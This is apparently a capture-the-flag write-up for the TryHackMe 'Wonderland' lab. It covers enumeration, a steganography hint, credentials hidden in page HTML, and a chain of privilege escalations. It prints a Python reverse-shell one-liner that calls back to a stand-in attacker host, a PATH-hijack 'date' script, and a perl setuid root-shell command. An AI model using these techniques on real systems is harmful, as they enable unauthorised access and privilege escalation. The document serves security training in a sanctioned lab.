

# [Wonderland - Fall down the rabbit hole and enter wonderland.](https://tryhackme.com/r/room/wonderland)

## Enumeration

### Nmap

```
kali@kali:~/CTFs/wonderland$ nmap -sC -sV $TARGETIP    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-29 13:03 EDT
Nmap scan report for TARGETIP
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```

### Exploring the webpage


There is barely something to discover. By looking at the source-code, we can identify the directory of the image, */img*. Visiting */img* reveals two more images, 'alice_door.png' and 'alice_door.jpg'.


### Analyzing the image-files

After checking all three images with several tools (`binwalk`, `file`, `strings` and `exiftools`), they do not seem to have any hidden embedded data. Steganography-wise, the image directly used on the landing page, 'white_rabbit_1.jpg', has a hidden message though. We can extract it by using `steghide` and an empty password.

```
kali@kali:~/CTFs/wonderland/website_resources$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
                                                                                                                                       
kali@kali:~/CTFs/wonderland/website_resources$ ls
alice_door.jpg  alice_door.png  hint.txt  white_rabbit_1.jpg
                                                                                                                                       
kali@kali:~/CTFs/wonderland/website_resources$ cat hint.txt        
follow the r a b b i t
```

### Gobuster directory enumeration
```
kali@kali:~/CTFs/wonderland$ gobuster dir -u $TARGETIP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://TARGETIP
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/r                    (Status: 301) [Size: 0] [--> r/]
/poem                 (Status: 301) [Size: 0] [--> poem/]
/http%3A%2F%2Fwww     (Status: 301) [Size: 0] [--> /http:/www]
/http%3A%2F%2Fyoutube (Status: 301) [Size: 0] [--> /http:/youtube]
/http%3A%2F%2Fblogs   (Status: 301) [Size: 0] [--> /http:/blogs]
/http%3A%2F%2Fblog    (Status: 301) [Size: 0] [--> /http:/blog]
/**http%3A%2F%2Fwww   (Status: 301) [Size: 0] [--> /%2A%2Ahttp:/www]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

`gobuster` discovered the directory */r*. Following the hint, we should check if there is something at *TARGETIP/r/a/b/b/i/t*. Inspecting the source-code uncovers a "hidden" html-block, `<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`. We can use these credentials to establish an SSH-connection as user **alice**.

## User-flag

Alice's home-directory includes the root.txt. Assuming the flags are at reversed places, the user-flag would be within */root*.
```
alice@wonderland:~$ cat /root/user.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXX}
alice@wonderland:~$ 
```

## Root-flag
```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ 
```
Alice is able to execute /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py as user **rabbit** via `sudo`.

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
The line was:    "The time has come," the Walrus said,
The line was:    You could not see a cloud, because
The line was:    "O Oysters, come and walk with us!"
The line was:    The Carpenter said nothing but
The line was:    "But not on us!" the Oysters cried,
The line was:    The middle of the night.
The line was:    And yet another four;
The line was:    Conveniently low:
The line was:    "To come and spoil the fun!"
The line was:    
alice@wonderland:~$ 
```

If we can modify or change the content of the python-file, we could create a reverse-shell to get access as user **rabbit**. After some research, it looks like the way to go is to trick the system to include a local file instead of the requested library. In other words, we are going to create a malicious file called **random.py** containing the code for the reverse-shell at the same directory (*/home/alice/*). The code-snippet I used can be found [here](https://medium.com/dont-code-me-on-that/bunch-of-shells-python-b3fb1400b823).

```
alice@wonderland:~$ cat random.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKERIP',1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);

```
Executing will bring us the desired shell.
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
```
kali@kali:~$ nc -lvnp 1337         
listening on [any] 1337 ...
connect to [ATTACKERIP] from (UNKNOWN) [TARGETIP] 45720
$ whoami
rabbit
$ 
```

User **rabbit** has a binary called "teaParty" in his directory.
After analyzing, we find out it calls `date` without providing an absolute path. That means, if we modify the PATH environment variable, we can trick the system to execute a different file with the name 'date'. Furthermore, teaParty seems to call 'setgid()' and 'setuid()', so if we create a custom date-file and put code for a shell into it, we will most likely end up getting it for a different user since these functions get executed before the date-call.



```
rabbit@wonderland:/tmp$ echo 'bash -i' > date     
echo 'bash -i' > date
rabbit@wonderland:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
rabbit@wonderland:/tmp$ chmod 777 date
chmod 777 date
rabbit@wonderland:/tmp$ 
```

```
rabbit@wonderland:/home/rabbit$ ./teaParty
./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```
We are now logged in as **hatter**. Within his home-directory, there is a file called *password.txt* providing his password. We can use it to get a better shell, stability-wise, by establishing an SSH-connection.

```
hatter@wonderland:/home/hatter$ cat password.txt
cat password.txt
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ 
```
### Privilege Escalation
Linpeas gives us the following hint


 - /usr/bin/perl has setuid capability -> [GTFOBins](https://gtfobins.github.io/gtfobins/perl/)

```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# ls /home/alice
random.py  root.txt  walrus_and_the_carpenter.py
# cat /home/alice/root.txt
thm{XXXXXXX, XXXXXXX, XXXXXX XXXX XXX X XXXXXX XXXX XXX'XX XXX}
# 
```


